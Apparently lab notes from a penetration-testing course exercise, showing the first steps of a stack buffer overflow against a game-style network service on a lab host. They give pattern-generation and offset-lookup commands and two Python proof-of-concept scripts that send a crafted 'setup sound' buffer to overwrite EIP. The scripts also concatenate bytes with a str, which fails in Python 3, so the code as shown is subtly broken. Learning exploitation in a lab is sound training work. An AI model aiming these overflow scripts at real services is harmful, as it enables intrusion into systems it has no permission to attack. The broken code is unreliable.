

### 12.3.1.1 Exercises
#### 1. Determine the correct buffer offset required to overwrite the return address on the stack.

- Generated 4,379 byte unique pattern

   ```bash
   msf-pattern_create -l 4379
   ```
   
- Inserted into PoC

   ```python
   #!/usr/bin/python3
   import socket
   host = "192.168.216.44"
   pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab<snipped>  j1Fj2Fj3Fj4Fj5Fj6Fj7Fj8Fj9Fk0Fk1Fk2Fk3Fk4Fk5Fk6Fk7Fk8Fk9Flo9Fp0Fp1Fp2Fp3Fp4Fp5Fp6Fp7Fp8Fp"
   buffer = b"\x11(setup sound " + pattern + "\x90\x00#"
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   print ("[*]Sending evil buffer...")
   s.connect((host, 13327))
   print (s.recv(1024))
   s.send(buffer)
   s.close()
   print ("[*]Payload Sent !")
   ```

- EIP has address 46367046.  Looked this up in MS:
   `msf-pattern_offset -l 4379 -q 46367046`

- Offset is 4368

#### 2. Update your stand-alone script to ensure your offset is correct.

```python
#!/usr/bin/python3
import socket
host = "192.168.216.44"
crash = b"\x41" * 4368
eip = b"\x42" * 4
ending = b"\x43" * 7
buffer = b"\x11(setup sound " + crash + eip + ending +"\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print ("[*]Sending evil buffer...")
s.connect((host, 13327))
print (s.recv(1024))
s.send(buffer)
s.close()
print ("[*]Payload Sent !")
```

EIP overwritten by B's

